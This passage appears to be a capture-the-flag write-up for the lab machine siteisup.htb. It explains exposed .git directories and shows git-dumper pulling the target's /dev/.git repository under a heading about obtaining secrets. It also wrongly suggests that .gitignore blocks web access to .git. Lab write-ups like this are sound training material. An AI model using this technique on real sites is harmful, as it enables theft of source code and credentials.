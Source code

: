 The `.git` directory is a directory that is created when a developer initializes a new Git repository on their computer. It is used to store all of the version control information for the project, including a history of all of the changes that have been made to the project, as well as any branches and tags that have been created.

If a penetration tester finds the `.git` directory on a web application, it may be a potential security concern because it could contain sensitive information about the application and its development history. For example, the `.git` directory may contain a list of all of the files in the repository, as well as the names of the developers who have worked on the project. This information could potentially be used by an attacker to identify vulnerabilities in the application or to craft targeted attacks.

It is generally a good practice to ensure that the `.git` directory is not accessible from the web, as it could potentially expose sensitive information about the application. This can typically be done by adding the `.git` directory to the `.gitignore` file or by configuring the web server to block access to it.

- `/dev/.git` Endpoint:

![Image alt](/images/Pasted-image-20221230083657.png)

[External resource: exploiting exposed .git directory - pentester.land](https://pentester.land/blog/source-code-disclosure-via-exposed-git-folder/)

## Obtaining the secrets:

- We will use a tool called [git-dumper](https://github.com/arthaud/git-dumper.git)

```bash
goku@exploitation:~$ git-dumper http://siteisup.htb/dev/.git/ ~/siteisup-dev
[-] Testing http://siteisup.htb/dev/.git/HEAD [200]
[-] Testing http://siteisup.htb/dev/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://siteisup.htb/dev/.gitignore [404]
[-] http://siteisup.htb/dev/.gitignore responded with status code 404
[-] Fetching http://siteisup.htb/dev/.git/ [200]
[-] Fetching http://siteisup.htb/dev/.git/packed-refs [200]
[-] Fetching http://siteisup.htb/dev/.git/branches/ [200]
[-] Fetching http://siteisup.htb/dev/.git/HEAD [200]
[-] Fetching http://siteisup.htb/dev/.git/description [200]
[-] Fetching http://siteisup.htb/dev/.git/refs/ [200]
[-] Fetching http://siteisup.htb/dev/.git/logs/ [200]
[-] Fetching http://siteisup.htb/dev/.git/config [200]
[-] Fetching http://siteisup.htb/dev/.git/objects/ [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/ [200]
[-] Fetching http://siteisup.htb/dev/.git/index [200]
[-] Fetching http://siteisup.htb/dev/.git/logs/HEAD [200]
[-] Fetching http://siteisup.htb/dev/.git/logs/refs/ [200]
[-] Fetching http://siteisup.htb/dev/.git/objects/info/ [200]
[-] Fetching http://siteisup.htb/dev/.git/refs/heads/ [200]
[-] Fetching http://siteisup.htb/dev/.git/refs/remotes/ [200]
[-] Fetching http://siteisup.htb/dev/.git/objects/pack/ [200]
[-] Fetching http://siteisup.htb/dev/.git/refs/tags/ [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/commit-msg.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/fsmonitor-watchman.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/pre-merge-commit.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/pre-commit.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/post-update.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/pre-push.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/pre-receive.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/push-to-checkout.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/logs/refs/heads/ [200]
```
